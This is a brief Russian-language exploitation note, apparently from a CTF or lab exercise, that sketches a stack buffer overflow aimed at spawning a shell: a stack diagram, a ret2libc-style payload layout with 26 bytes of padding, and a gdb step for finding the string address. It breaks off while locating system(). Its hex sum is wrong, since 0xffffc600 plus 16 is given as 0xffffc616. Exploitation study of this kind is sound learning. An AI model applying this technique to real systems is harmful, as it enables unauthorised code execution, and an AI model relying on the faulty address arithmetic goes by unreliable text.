 На этот раз мы хотим получить консоль

Стек такой же
```
ret
ebp
ebx
---

result
* * * *
* * * *
XX XX * * <- buffer

---
---
&buffer
string <- esp
```

Как примерно должен выглядеть payload
```
A...A<system>BBBBBBBBRRRRRRRR<str><string itself>
|---|           ebp     ret
  26
```

На нужно найти адрес нашей строки, для этого нужно в gdb узнать, наш esp
```
esp = 0xffffc600
str addr = esp + 16 = 0xffffc616
```

Теперь нужно найти, где лежит system